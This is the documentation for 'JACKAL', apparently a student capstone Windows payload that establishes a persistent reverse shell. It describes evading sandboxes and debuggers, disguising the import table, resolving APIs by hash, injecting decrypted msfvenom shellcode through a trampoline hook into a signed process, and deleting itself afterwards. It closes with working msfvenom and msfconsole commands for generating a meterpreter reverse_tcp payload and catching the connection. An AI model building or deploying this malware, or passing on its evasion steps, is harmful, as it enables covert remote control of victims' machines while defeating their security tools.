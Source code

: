 # Windows Payload: JACKAL

### Source Code

* https://github.com/Nekrosis-ISS-Capstone/JACKAL

### Description

This documentation outlines the functionality and implementation details of "JACKAL", a Windows payload designed to establish a persistent reverse shell on a target system. The payload is designed to work in conjunction with the nekrosis framework, leveraging advanced techniques for stealth and evasion.

### Functionality overview

1. **Debugging and Sandbox Detection**: The payload conducts an initial check to determine if it's being debugged or running within a sandbox environment. This is crucial for evading detection and ensuring successful execution.
2. **Import Address Table Camouflage**: To avoid detection, the payload disguises its import address table with whitelisted API functions. This helps to blend in with legitimate system processes and avoid triggering security mechanisms.
3. **Dynamic API Resolution**: The payload dynamically resolves API functions using the custom GetProcessAddressByHash() function. This function utilizes a compile time djb2 hashing algorithm to calculate function hashes, which are then matched against the export address table of specified DLLs to locate the required functions.
4. **Delayed Execution**: The payload introduces delayed execution to wait for a target binary to spawn. This ensures that the payload seamlessly integrates with the target process, enhancing stealth and persistence.
5. **Hook installation and shellcode execution**:
Once the target process is running, the payload locates the address of the WinAPI function to hook within the target process. It then patches the trampoline hook shellcode with the address of the function to hook. Following this, the payload identifies a memory hole adjacent to the DLL exporting the target WinAPI function. The decrypted msfvenom shellcode is injected into this buffer. When the hooked WinAPI function is called in the target process, the injected shellcode is executed. Subsequently, the execution of the target process resumes, establishing a reverse shell connection through the signed binary targeted by the payload.
6. **Self-Deletion**: After successfully establishing the reverse shell, the payload deletes itself to remove evidence of its presence on the system. This helps to maintain stealth and avoid detection by security tools.

### Preparation and Compilation

To ensure a connection can be established to your machine for the reverse shell, a generated payload has to be inserted in the payload array located in payload.cpp. A payload can be generated using msfvenom:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={listener IP} LPORT={listener port} -f c
```
After the payload is generated and inserted into the code, the code can be compiled using visual studio, and msfconsole can be used as a listener with the following commands
```
msfconsole
msf6 > use windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST {listener ip}
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT {listener port}
msf6 payload(windows/x64/meterpreter/reverse_tcp) > exploit
```
